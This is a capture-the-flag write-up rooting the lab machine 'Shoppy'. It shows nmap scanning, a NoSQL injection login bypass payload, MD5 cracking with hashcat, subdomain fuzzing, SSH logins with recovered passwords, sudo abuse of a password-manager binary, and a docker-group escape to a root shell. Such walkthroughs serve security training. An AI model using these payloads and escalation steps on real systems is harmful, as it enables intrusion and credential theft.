





# Shoppy

## Abstract
*Category* : **Machine**<br/>
*Challenge name* : **Shoppy**<br/>
*Host* : `10.10.11.180`<br/>
*Description* : N/A<br/>
*Status* : **SOLVED**

## Walktrough
This is a machine challenge, let's start with a classic nmap scan:<br/>
```console
nmap -A -sV -Pn --script=nmap-vulners/ 10.10.11.180                                                                         ─╯
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-03 07:36 UTC
Nmap scan report for 10.10.11.180 (10.10.11.180)
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.4p1: 
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	CVE-2021-41617	4.4	https://vulners.com/cve/CVE-2021-41617
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2016-20012	4.3	https://vulners.com/cve/CVE-2016-20012
|_    	CVE-2021-36368	2.6	https://vulners.com/cve/CVE-2021-36368
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.88 seconds

```
<br/>

As you can see, nmap tells us that it found 2 open ports on the target (`22` and `80`) and nmap scripting <br/> engine tells us that port `22` is subject to several known vulnerabilities although, from the **CVE** scores, we can guess that they are not critical vulnerabilities. <br/> By carrying out more detailed research we are confirmed that these are not extremely powerful attack points<br/> but let's keep them in mind anyway, you never know.
<br/>
<br/>
It seems like a website is exposed on port 80, let's check with our browser:<br/>

<div style="width: 65%; height: 65%">

  
  
</div>  
<br/>

Super simple web page, nothing interesting in the source, nothing in the cookies.<br/>
Let's try manually to search for the "classic" folders and files (eg `\robot.txt`, `images`, `admin`) by appending them manually to the URL.<br/>Both
Ummm...it seems that the url `http://shoppy.htb/admin` redirects us to a login page:<br/>
<div style="width: 65%; height: 65%">

  
  
</div>  
<br/>

Let's play a bit with sqlmap:<br/>
```console
sqlmap -u http://shoppy.htb/login --data="username=user&password=pwd" --method POST --dbs --batch
```

Unfotunately, we are not lucky 😔 <br/>
What if it is a NoSql db though?<br/>
Let's try some NoSqli payloads...<br/>
At last we are lucky with username=`admin'||'1==1` (always true)! <br/>
<div style="width: 65%; height: 65%">

  
  
</div>  
<br/>

if we click on the `search for users` button, we are able to again submit the same NoSqli payload ad retrieve a list of credentials:<br/>

<div style="width: 65%; height: 65%">

  
  
</div>  
<br/>

Both passwords are `md5` hashes, let's put both of them into a file named `hashes` and try to decrypt them with `hashcat` and `rockyou.txt` as a dictionary: <br/>
```console
hashcat -m 0 hashes rockyou.txt -O                                                                   ─╯
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-0x000, 4096/8918 MB allocatable, 5MCU

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Precompute-Merkle-Demgard
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0-optimized.97c7a946.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344394
* Bytes.....: 139921525
* Keyspace..: 14344387
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway
Approaching final keyspace - workload adjusted.  

                                                 
Session..........: hashcat
Status...........: Exhausted
Hash.Type........: MD5
Hash.Target......: hashes
Time.Started.....: Mon Oct  3 09:34:09 2022 (3 secs)
Time.Estimated...: Mon Oct  3 09:34:12 2022 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5374.4 kH/s (0.44ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/2 (50.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 14344387/14344387 (100.00%)
Rejected.........: 3094/14344387 (0.02%)
Restore.Point....: 14344387/14344387 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....:  holler11 -> clarus

Started: Mon Oct  3 09:34:03 2022


```
<br/>

It found one hash! ==> <br/> `6ebcea65320589ca4f2f1ce039975995:remembermethisway`, <br/>
Surely it will be useful to us, but for what? 🤔 <br/>
We spend some time exploring the application to see if we missed something but it seems not,<br/>
at this point we try an enumeration of the directories and sub-domains of the site<br/>
and we notice that the domain `mattermost.shoppy.htb` exists!<br/>
```console
wfuzz -c -f subdomains_output.txt -w subdomains.txt -u "http://shoppy.htb/" -H "Host: FUZZ.shoppy.htb" --hl 7
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/bing.py Exception, msg=No module named 'shodan'
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/shodanp.py Exception, msg=No module named 'shodan'
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 9988

===================================================================
ID           Response   Lines    Word     Chars       Payload                                   
===================================================================

000000001:   200        0 L      141 W    3122 Ch     "mattermost"
```
<br/>
Let's try to reach that page and login with the credentials we found earlier:<br/>

<div style="width: 65%; height: 65%">

  
  
</div>  
<br/>
Yes! We are In!<br/>

If we look around we find the chat channel `Deploy machine` and in it, in plain sight, a password for the `jaeger` user: <br/>
```console
Sh0ppyBest@pp!
```
Let's try to connect via SSH with these credentials:<br/>
```console
ssh jaeger@shoppy.htb                                                                                ─╯
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ECDSA key fingerprint is SHA256:KoI81LeAk+ps7zoc1ru39Mg7srdxjzOb1UgmdW6T6kI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb,10.10.11.180' (ECDSA) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Oct  3 05:01:24 2022 from 10.10.14.31

```
We are succesfully logged in on the server with the user `jaeger`!!!<br/>
If we look around with `ls` we see a `user.txt` file and we are able to read it:<br/>
```console
cat user.txt 
55b7c826d3bf39ac63592327588367fe
```
This is our first flag! 💪<br/>
For this challenge, however, we are interested in the root flag so we need to escalate our privileges.<br/>
Let's see  which sudo rights our user has:<br/>
```console
sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
This is interesting:<br/>
```console
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

If we cat this file we see a hint for the user `deploy` and the password `Sample` so let's execute the propgram with that user:<br/>
```console
sudo -u deploy /home/deploy/password-manager 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
 
```
Excelent, we have another user's credentials, let's try to login via SSH with the user `deploy`.<br/>
Once we are in, if we do a `ps -aux` we notice that there are too few processes, this may be a hint that we found <br/>
ourselves inside a docker container.<br/>
Let's now try to run `id` command:<br/>
```console
id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)

```
Yes! we are member of the `Docker` group so we can interact with docker.<br/>
A rapid online search for `docker privilege escalation vulnerability` <br/>
suggest this command to to break out from restricted environments by spawning an interactive system shell.<br/>
The resulting is a root shell:<br/>
```console
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

What are we waiting for? Let's try it!<br/>
```console
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# cd root
# ls
root.txt
# cat root.txt
79501d7a33fa77e4ee9bdc739111e572

```
And that is it!<br/>

We have finally rooted the machine and we can submit our flag! 🏴